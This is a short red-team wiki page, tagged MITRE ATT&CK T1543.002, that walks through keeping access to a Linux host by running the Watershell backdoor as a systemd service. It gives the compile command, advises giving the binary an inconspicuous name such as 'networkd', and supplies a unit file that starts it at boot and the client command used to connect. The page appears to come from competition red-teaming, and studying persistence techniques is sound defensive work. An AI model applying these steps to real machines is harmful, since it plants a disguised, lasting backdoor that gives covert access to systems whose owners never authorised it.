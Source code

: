 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1543.002
---
```


# Systemd Service Persistence

The following example demonstrates Systemd persistence with Watershell.&#x20;

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC Regionals. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool.

General steps for persistence with Watershell:

1. Compile the binary:&#x20;

```bash
g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}
```

2\. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to compiling.

3\. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`

4\. Setup a service to execute the binary, the following demonstrates an example configuration:

```bash
[Unit]
Description=persistence

[Service]
Type=simple
ExecStart=/bin/networkd -l $port

[Install]
WantedBy=multi-user.target
```

5\. Connect to the target using `watershell-cli.py` using the following command:

```bash
python3 watershell-cli.py -t $ip -p $port
```

### References

{% embed url="https://redcanary.com/blog/attck-t1501-understanding-systemd-service-persistence" %}
